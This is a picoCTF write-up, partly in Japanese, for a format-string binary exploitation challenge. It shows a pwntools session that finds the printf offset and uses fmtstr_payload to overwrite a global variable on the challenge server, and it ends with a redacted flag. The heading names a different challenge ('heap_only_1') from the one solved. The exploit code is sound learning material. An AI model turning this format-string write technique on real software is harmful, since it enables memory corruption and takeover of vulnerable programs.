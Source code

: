 # heap_only_1:bynary Medium  
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!   

Download the source [here](format_string_2.c)  

Additional details will be available after launching your challenge instance.  

# Solution  
ssh接続する  
from pwn import *  
>>>   
>>> context.log_level = "critical"  
>>> context.binary = ELF('./vuln')  
>>>   
>>> p = remote('rhea.picoctf.net',60152)  
>>>   
>>> def exec_fmt(payload):  
...  p = remote('rhea.picoctf.net',60152)  
...  p.sendline(payload)  
...  return p.recvall()  
...   
>>> autofmt = FmtStr(exec_fmt)  
>>> offset = autofmt.offset  
>>>   
>>> payload = fmtstr_payload(offset, {0x404060: 0x67616c66})  
>>>   
>>> p.sendline(payload)  
>>>   
>>> flag = p.recvall()  
>>>   
>>> print("Flag: ", flag)  
Flag:  b"You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\nHere's your   input:                                                                                                        uc     \x00                                                                                                                                                                                                                                                      \x00aaaaba`@@\nI have NO clue how you did that, you must be a wizard. Here you go...\npicoCTF{....}"  

# 基礎知識    
gdb    
プログラムのデバッグ（バグの原因調査） に使われる代表的なツールです    
pwntools    
CTFやバイナリ解析、バイナリエクスプロイトの自動化を目的としたPythonライブラリ    

# 考えたこと    
コードを見ると「printf(buf);」という記述があり、fmbを使えることがわかった  
そこから、fmbを使ってオフセットを取得。  
gdbを使って、sus変数のアドレスを特定。  
その後、進展がなく断念した。  
noamgariani11様のwriteupを参考し、解答に至った  
[参考にしたwriteup](https://github.com/noamgariani11/picoCTF-2024-Writeup/blob/main/Binary%20Explotation/format-string-2.md)  
